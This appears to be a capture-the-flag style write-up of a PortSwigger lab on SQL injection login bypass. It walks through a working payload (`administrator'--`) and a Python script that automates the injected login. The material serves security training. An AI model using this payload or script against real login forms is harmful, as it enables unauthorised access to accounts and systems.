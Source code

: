 # Allowing login bypass

![](https://jawad.ca/images/sqli-lab02/sqli-lab02-01.png)

Lab #2 by PortSwigger Web Security Academy: [https://portswigger.net/web-security/sql-injection/lab-login-bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)

### Description <a href="#description" id="description"></a>

This lab contains a SQL injection vulnerability in the login function.

To solve the lab, perform a SQL injection attack that logs in to the application as the `administrator` user.

#### Steps <a href="#steps" id="steps"></a>

Trying to login by using a single quote (`'`) as the username, returns an internal server error, demonstrating that the app is vulnerable.

![](https://jawad.ca/images/sqli-lab02/sqli-lab02-05.png)

By intercepting the Login POST request and appending `'--` to the administrator username, we can bypass the remaining part of the query that checks the password.

![](https://jawad.ca/images/sqli-lab02/sqli-lab02-04.png)

\
And we’re in!

![](https://jawad.ca/images/sqli-lab02/sqli-lab02-03.png)

\
Let’s script the solution in Python.

It’s a `POST` request that expects three parameters: `csrf`, `username`, and `password`.

```python
import requests  
import sys  
import urllib3  
from bs4 import BeautifulSoup  
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)  
  
proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}  
  
def get_csrf_token(session, url):  
	response = session.get(url, verify=False, proxies=proxies)  
	soup = BeautifulSoup(response.text, 'html.parser')  
	# getting csrf from html input element  
	return soup.find("input")['value']  
  
  
if __name__ == "__main__":  
	try:  
		url = sys.argv[1].strip()  
		username = sys.argv[2].strip()  
	except IndexError:  
		print('Usage: %s <url> <username>, e.g www.example.com "1=1"' % sys.argv[0]) 
		sys.exit(-1)  
  
session = requests.Session()  
  
#password is not important knowing that Auth is bypassed from an SQLi in ther username parameter  
data = {"csrf": get_csrf_token(session, url), "username": username, "password": "randomstring"}  
response = session.post(url, data=data, verify=False, proxies=proxies)  
  
# Congratulations message will show up only after solving the lab manually.  
if "Congratulations" in response.text:  
	print("it worked.")  
else:  
	print("Didn't work.")
	
```

\
Testing the Python script:

{% code overflow="wrap" %}
```powershell
> python3 sqli-lab02.py "https://0ab000eb0409a6428036c6eb00f500b7.web-security-academy.net/login" "administrator'--"

```
{% endcode %}

\
It worked! We can also validate it through Burp.

![](https://jawad.ca/images/sqli-lab02/sqli-lab02-06.png)
